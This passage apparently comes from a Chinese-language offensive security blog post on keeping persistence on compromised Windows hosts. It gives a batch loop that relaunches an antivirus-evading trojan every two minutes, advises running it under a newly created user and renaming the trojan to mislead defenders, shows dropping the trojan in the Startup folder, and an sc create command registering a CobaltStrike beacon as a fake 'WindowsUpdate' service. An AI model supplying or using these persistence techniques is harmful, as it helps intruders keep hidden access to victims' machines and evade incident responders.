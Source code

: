  C:

 cd C:\windows\temp

 start run.exe

 timeout %INTERVAL%

 goto Again

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIia9ibUicWNZJXEzw7E8rJTgRNSdh3WWicCIlgicaqUd52UhKlD9VUmpqichg/640)

然后运行这个脚本，这个脚本会每隔 2 分钟 (120 秒) 执行免杀木马。

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIsibkdoII09Lib9Yz6lrBl4JHBLiarG7fLc8IPtDnqw7oHAHnf1vNiboBBw/640)

在实战中我们的利用思路是，在目标机器上创建新用户，然后在新用户下执行该 bat 脚本。实战中我们可以将 120 秒的时间适当延长，免杀马的名字也可以修改为更具有迷惑性的名字。这样，如果防守方只是杀掉了免杀马的进程，而没有杀掉我们的这个 bat 脚本的 cmd.exe 进程的话，我们的这个 bat 脚本还会定时执行免杀马的。

注意：执行该脚本需要远程桌面双击执行，不能直接在 CobaltStrike 中使用命令行执行

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEInGAFWT2bFSaMdl3bXubibs2rFu4Odia5m32iaWZPVgyJ1XgeaqKymErEA/640)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640)

启动目录

针对重启主机，我们可以将木马放入系统的启动目录当中

C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIv7dF5s2HGXASDaKOWHa17HpibsGvg2iaakMZIic7mvd3w4M2siaNZaZJPw/640)

注意，如果目标主机上有杀软的话，将木马放入启动目录杀软会有安全提示的。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIulrlpia2xgoXtzktmdMpw8ib0C1BviapjyQDOuUgoH5cTYLv2LhYvqY8w/640)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640)

注册服务自启 (报毒)

注册服务

sc create "WindowsUpdate" binpath= "cmd /c start"C:\Users\Administrator\Desktop\beacon.exe""&&sc config"WindowsUpdate" start= auto&&net start  WindowsUpdate

查询服务

sc query WindowsUpdate

删除服务

sc delete WindowsUpdate

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIMBhHSr1dmzBq1eflaILWgoZshrHxwhI1ePxgcys9FujWpRKoMQibxxQ/640)

![](https://mmbiz.qpic.cn/mmbiz_jpg/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIHIu09FsQ9uMaIGPNWZGOmqyjcb5oCpyJoeb2jGX0ULaQeKDvnNq1SQ/640)
